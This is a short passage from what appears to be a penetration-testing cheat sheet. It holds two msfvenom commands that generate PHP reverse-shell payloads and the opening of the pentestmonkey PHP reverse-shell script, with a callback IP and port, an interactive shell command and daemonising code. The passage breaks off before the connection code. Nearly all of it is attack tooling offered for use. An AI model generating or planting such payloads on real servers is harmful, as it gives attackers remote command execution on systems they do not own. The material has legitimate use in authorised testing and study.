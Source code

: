 ```
msfvenom -p php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.php
msfvenom -p php/reverse_php LHOST=IP LPORT=PORT -f raw > phpreverseshell.php
```

### <mark style="color:orange;">shell.php</mark>

```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.56.1';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
// Fork and have the parent process exit
$pid = pcntl_fork();

if ($pid == -1) {
printit("ERROR: Can't fork");
exit(1);
}

if ($pid) {
exit(0);  // Parent exits
}

// Make the current process a session leader
// Will only succeed if we forked
if (posix_setsid() == -1) {
printit("Error: Can't setsid()");
exit(1);
}

$daemon = 1;
} else {
printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//
```